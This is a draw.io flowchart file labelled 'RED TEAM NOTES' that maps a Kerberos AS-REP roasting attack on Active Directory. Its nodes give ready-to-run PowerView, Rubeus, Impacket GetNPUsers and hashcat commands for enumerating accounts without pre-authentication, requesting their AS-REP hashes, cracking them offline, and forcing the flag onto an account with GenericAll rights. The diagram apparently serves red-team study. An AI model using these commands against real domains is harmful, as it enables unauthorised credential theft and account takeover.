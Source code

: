 <mxfile version="27.1.6">
  <diagram name="Pagina-1" id="J933VrF4-ukwTBbtJVdo">
    <mxGraphModel dx="11960" dy="6110" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="0" pageScale="1" pageWidth="1169" pageHeight="827" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-88" value="&lt;b&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; These return TGS&lt;/b&gt;" style="rounded=0;whiteSpace=wrap;html=1;fillColor=none;dashed=1;align=left;verticalAlign=bottom;" parent="1" vertex="1">
          <mxGeometry x="1640" y="1700" width="500" height="20" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-17" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-1" target="zsb6fFKO1eEHvJ3RfYXY-16" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-121" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-1" target="zsb6fFKO1eEHvJ3RfYXY-16" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-123" value="AUTH" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" parent="zsb6fFKO1eEHvJ3RfYXY-121" vertex="1" connectable="0">
          <mxGeometry x="-0.078" y="-1" relative="1" as="geometry">
            <mxPoint x="-2" as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-124" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.75;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-1" target="zsb6fFKO1eEHvJ3RfYXY-122" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-125" value="DELEGATION" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" parent="zsb6fFKO1eEHvJ3RfYXY-124" vertex="1" connectable="0">
          <mxGeometry x="-0.913" y="-3" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-1" value="&lt;b&gt;Kerberos&lt;/b&gt;" style="rounded=0;whiteSpace=wrap;html=1;shape=hexagon;perimeter=hexagonPerimeter2;fixedSize=1;" parent="1" vertex="1">
          <mxGeometry x="120" y="210" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-22" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-16" target="zsb6fFKO1eEHvJ3RfYXY-21" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-23" value="NO" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" parent="zsb6fFKO1eEHvJ3RfYXY-22" vertex="1" connectable="0">
          <mxGeometry x="-0.467" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-43" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-16" target="zsb6fFKO1eEHvJ3RfYXY-40" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-44" value="YES" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" parent="zsb6fFKO1eEHvJ3RfYXY-43" vertex="1" connectable="0">
          <mxGeometry x="-0.397" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-16" value="&lt;b&gt;pre-auth&lt;/b&gt;" style="rhombus;whiteSpace=wrap;html=1;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="310" y="200" width="80" height="80" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-25" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-21" target="zsb6fFKO1eEHvJ3RfYXY-24" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-29" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-21" target="zsb6fFKO1eEHvJ3RfYXY-27" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-31" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-21" target="zsb6fFKO1eEHvJ3RfYXY-30" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-54" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-21" target="zsb6fFKO1eEHvJ3RfYXY-52" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-60" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-21" target="zsb6fFKO1eEHvJ3RfYXY-58" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="540" y="750" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-21" value="&lt;b&gt;Enumeration&lt;/b&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="480" y="210" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-24" value="PowerShell Enumeration of accounts with DONT_REQ_PREAUTH" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="580" y="300" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-26" value="&lt;div&gt;PS C:\Tools&amp;gt; Import-Module .\PowerView.ps1&lt;/div&gt;&lt;div&gt;PS C:\Tools&amp;gt; Get-DomainUser -UACFilter DONT_REQ_PREAUTH&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="580" y="360" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-27" value="Rubeus to enumerate all accounts with the flag DONT_REQ_PREAUTH." style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="580" y="440" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-28" value="Rubeus.exe asreproast /format:hashcat" style="whiteSpace=wrap;html=1;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="580" y="500" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-34" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-30" target="zsb6fFKO1eEHvJ3RfYXY-32" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-36" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-30" target="zsb6fFKO1eEHvJ3RfYXY-35" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-57" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-30" target="zsb6fFKO1eEHvJ3RfYXY-55" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-61" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-30" target="zsb6fFKO1eEHvJ3RfYXY-58" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-30" value="&lt;b&gt;retrieve AS-REP&lt;/b&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="1049" y="210" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-32" value="Rubeus" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="1130" y="300" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-33" value=".\Rubeus.exe asreproast /user:&amp;lt;user&amp;gt; /domain:&amp;lt;domain&amp;gt; /dc:&amp;lt;dc-ip&amp;gt; /nowrap /outfile:&amp;lt;output-file&amp;gt;" style="whiteSpace=wrap;html=1;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="1130" y="360" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-39" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-35" target="zsb6fFKO1eEHvJ3RfYXY-37" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-35" value="&lt;b&gt;hash cracking&lt;/b&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="1620" y="210" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-37" value="HashCat" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#fff2cc;strokeColor=#d6b656;" parent="1" vertex="1">
          <mxGeometry x="1720" y="300" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-38" value="hashcat -m 18200 &amp;lt;hash-file&amp;gt; &amp;lt;wordlist&amp;gt;&amp;nbsp; -O" style="whiteSpace=wrap;html=1;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="1720" y="360" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-47" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#3333FF;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-49" target="zsb6fFKO1eEHvJ3RfYXY-45" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-48" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.75;entryDx=0;entryDy=0;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-49" target="zsb6fFKO1eEHvJ3RfYXY-21" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="1100" y="1013" />
              <mxPoint x="1100" y="930" />
              <mxPoint x="440" y="930" />
              <mxPoint x="440" y="255" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-50" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-40" target="zsb6fFKO1eEHvJ3RfYXY-49" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-51" value="YES" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" parent="zsb6fFKO1eEHvJ3RfYXY-50" vertex="1" connectable="0">
          <mxGeometry x="-0.069" y="-1" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-70" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-40" target="zsb6fFKO1eEHvJ3RfYXY-69" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-71" value="NO" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" parent="zsb6fFKO1eEHvJ3RfYXY-70" vertex="1" connectable="0">
          <mxGeometry x="0.118" y="-2" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-40" value="&lt;b&gt;GenericAll privileges on an account&lt;/b&gt;" style="rounded=0;whiteSpace=wrap;html=1;shape=rhombus;backgroundOutline=1;perimeter=rhombusPerimeter;" parent="1" vertex="1">
          <mxGeometry x="520" y="983" width="240" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-45" value="&lt;div&gt;Set DONT_REQ_PREAUTH with PowerView&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="1050" y="1103" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-46" value="&lt;div&gt;&lt;div&gt;PS C:\Tools&amp;gt; Import-Module .\PowerView.ps1&lt;/div&gt;&lt;div&gt;PS C:\Tools&amp;gt; Set-DomainObject -Identity &amp;lt;userName&amp;gt; -XOR @{useraccountcontrol=4194304} -Verbose&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="1050" y="1163" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-49" value="&lt;b&gt;Set DONT_REQ_PREAUTH&lt;/b&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="830" y="983" width="240" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-52" value="Impacket" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="580" y="580" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-53" value="GetNPUsers.py &amp;lt;domain&amp;gt;/&amp;lt;user&amp;gt;" style="whiteSpace=wrap;html=1;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="580" y="640" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-55" value="impacket" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="1130" y="440" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-56" value="GetNPUsers.py &amp;lt;domain&amp;gt;/&amp;lt;user&amp;gt; -request" style="whiteSpace=wrap;html=1;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="1130" y="500" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-58" value="Impacket (&lt;span style=&quot;background-color: transparent;&quot;&gt;Finding AS-REPRoastable Accounts without Authentication&lt;/span&gt;)" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="1130" y="720" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-59" value="GetNPUsers.py &amp;lt;domain&amp;gt;/ -dc-ip &amp;lt;dc-ip&amp;gt; -usersfile &amp;lt;userfile&amp;gt; -format hashcat -outputfile &amp;lt;outputfile&amp;gt; -no-pass" style="whiteSpace=wrap;html=1;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="1130" y="780" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-65" value="We may receive an error, but we will still get the hash of the account" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f5f5f5;strokeColor=#666666;fontColor=#333333;" parent="1" vertex="1">
          <mxGeometry x="1130" y="840" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-67" value="&lt;b&gt;RED TEAM NOTES&lt;/b&gt;" style="rounded=0;whiteSpace=wrap;html=1;fillColor=#e51400;strokeColor=#B20000;fontColor=#ffffff;" parent="1" vertex="1">
          <mxGeometry x="120" y="-250" width="190" height="20" as="geometry" />
        </mxCell>
